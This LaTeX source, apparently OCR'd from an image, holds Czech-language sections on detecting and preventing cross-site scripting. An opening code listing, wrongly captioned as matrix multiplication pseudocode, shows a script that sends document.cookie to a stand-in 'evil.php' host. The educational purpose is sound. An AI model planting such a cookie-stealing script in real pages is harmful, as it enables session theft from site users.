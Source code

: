 \documentclass[11pt,conference, a4paper]{IEEEtran}
\begin{document}
\begin{lstlisting}[
  caption=Matrix multiplication pseudo code,
  label=lst1:mxm,]
<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>
\end{lstlisting}

\section{Jak detekovat XSS zranitelnosti}
XSS zranitelnosti mohou být poměrně náročné na detekci a odstranění z již existující webové aplikace. Nejlepším způsobem bývá provedení plné revize zdrojových kódů aplikace. Nejdůležitější při revizi je zaměřit se na místa, na kterých se vkládají uživatelský vstup nebo data z HTTP dotazů do HTML kódu webové stránky. Je nutné dávat si pozor na veškeré HTML tagy, které mohou být použity pro spouštění JavaScript kódu, a ne jen na \texttt{<script>} tag.

K odhalení XSS zranitelností je také možno použít některé užitečné nástroje, jako jsou například Nessus a Nikto. Pokud je zranitelná nějaká část aplikace, je velmi pravděpodobné, že problém může být i na jiných místech.



\section{Předcházení útoků XSS}
XSS je komplexní problém, který trápí vývojáře už nějakou dobu a rozhodně v brzké době jen tak nezmizí. Neexistuje hromadné řešení, které by mohlo být jednoduše aplikovatelné pro většinu webových aplikací.

Problémem je oddělit od sebe požadovanou funkčnost webové aplikace od škodlivé činnosti. Prohlížeč sám o sobě není bezpečný. Byl vytvořen k provádění HTTP dotazů a následné zobrazování výsledků, což mimo jiné zahrnuje i schopnost spouštět kódy napsané v jazyce JavaScript. JavaScript je standardním jazykem webových vývojářů, kteří jej používají všemi možnými způsoby, ať už dobrými či špatnými, aby dosáhli požadované funkcionality. Prohlížeč tedy nemůže jen tak vyhodnotit, zda-li kód provádí něco nekalého a nežádoucího. I~činnosti, jako například procházení cookies a čtení ze systémové schránky (clipboard), jsou mnohdy volány validními programy a taková funkcionalita nemůže být jednoduše zakázána.

Ze všech problémů však není možné vinit prohlížeč. Většině zranitelností by šlo předejít poměrně jednoduše. Základem je, aby vývojáři začali vytvářet bezpečné stránky, což se aktuálně často neděje. Útočníci mohou jednoduše využít chyb vývojářů k vlastnímu prospěchu. Proto je nutné vzdělávat vývojáře v metodách, jak zabezpečit svoje aplikace. \cite{Grossman2007}
\end{document}
